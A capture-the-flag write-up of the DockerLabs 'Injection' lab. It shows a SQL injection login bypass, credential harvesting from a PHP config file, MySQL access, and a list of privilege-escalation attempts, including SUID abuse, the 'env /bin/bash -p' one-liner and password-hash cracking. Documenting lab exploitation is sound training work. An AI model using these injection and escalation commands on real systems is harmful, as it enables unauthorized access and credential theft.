

# Injection - DockerLabs - Easy

## Summary
Injection is an easy Linux Docker container with three exposed services: SSH, Apache, and MariaDB. The attack path starts with a basic SQL injection on a login form that leaks Dylan's credentials, followed by SSH access. From there, credentials found in a PHP config file grant MySQL root access. However, in this version of the container, privilege escalation to system root is not achievable — the expected SUID binary (`/usr/bin/env`) is missing.


## Tools
- `nmap`
- `sqlmap` / manual SQL injection
- `mysql`
- `msfvenom` (not used)
- `netcat` (not used)

## 1. Enumeration

```sh
nmap -sV -sC -p- 172.17.0.2

22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu
80/tcp   open  http    Apache httpd 2.4.52
3306/tcp open  mysql   MariaDB 10.3.23 or earlier
```

## 2. Exploitation

When we visit the page, there is a login form. We try the simplest SQL Injection (`'or 1=1-- -`):



And we see there is a Dylan with his password:
```
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
```

Now, we connect through SSH:
```sh
ssh dylan@172.17.0.2
```

We search for different config files:

```sh
cat /var/www/html/*.php
cat /var/www/html/config.php
```

And we can find the password for `root`. We try `su root`, but it doesn't log in. So, we try with mysql.

```
mysql -u root -ppaso
```

But we don't have permissions to write a file, just read permissions.

So, we search by SUID.

## 3. Escalate Privileges
### Attempted Vectors (all failed in this container version)

**SUID binaries** — no useful binaries beyond standard system ones:

```sh
find / -perm -4000 -type f 2>/dev/null
# /usr/bin/passwd, /usr/bin/su, /usr/bin/mount, /usr/bin/umount,
# /usr/bin/chfn, /usr/bin/chsh, /usr/bin/gpasswd, /usr/bin/newgrp
# /usr/lib/openssh/ssh-keysign
# /usr/lib/dbus-1.0/dbus-daemon-launch-helper
# NOTE: /usr/bin/env with SUID is the expected vector but is MISSING
#       in this container version
```

**Capabilities** — none found:

```sh
getcap -r / 2>/dev/null
# (no output)
```

**Writing SSH keys for root** — permission denied:

```sql
SELECT 'ssh-rsa <KEY>' INTO OUTFILE '/root/.ssh/authorized_keys';
-- ERROR 1: Permission denied
```

**UDF (User Defined Functions) via MySQL plugin dir** — not writable:

```sh
ls -la /usr/lib/mysql/plugin/
# drwxr-xr-x root root — not writable by dylan
```

**Modifying `/etc/passwd`** — not writable:

```sh
ls -la /etc/passwd
# -rw-r--r-- 1 root root — read only
```

**`gpasswd` to add dylan to shadow group** — permission denied:

```sh
gpasswd -a dylan shadow
# gpasswd: Permission denied
```

**Cron jobs** — `/usr/lib/php/sessionclean` runs as root every 30 min but is 
not writable:

```sh
cat /etc/cron.d/php
ls -la /usr/lib/php/sessionclean
# -rwxr-xr-x 1 root root — not writable
```

**MySQL `system` command** — runs as `dylan`, no privilege gain:

```sql
system whoami
-- dylan
system chmod u+s /bin/bash
-- chmod: changing permissions of '/bin/bash': Operation not permitted
```

**Cracking MySQL root hash** — hash found but not needed if other vectors work:

```sh
echo "*0AC9F3DC0012E7E395296E2D1508927D9CFFBD42" > hash.txt
john hash.txt --format=mysql-sha1 --wordlist=/usr/share/wordlists/rockyou.txt
hashcat -m 300 hash.txt /usr/share/wordlists/rockyou.txt
```

### Expected Vector (per writeups — missing in this version)

According to public writeups, the intended escalation path is:

```sh
find / -perm -4000 -type f 2>/dev/null | grep env
# Expected: /usr/bin/env (with SUID bit set)

/usr/bin/env /bin/bash -p
whoami  # root
```

This binary was **not present with SUID** in this container instance. The container image may have been updated and the intended misconfiguration removed.

## 4. Lessons Learned
- Basic SQL injection (`' or 1=1-- -`) can leak credentials directly from the application response — always test login forms.
- PHP config files in the web root are a common source of hardcoded database credentials.
- Password reuse between the database and system accounts is a common finding 
  in real engagements.
- `env` with SUID is a trivial privilege escalation — GTFOBins documents it as a one-liner: `env /bin/bash -p`.
- When a lab doesn't behave as documented, enumerate exhaustively before concluding — in this case the container image had changed.

## Flags
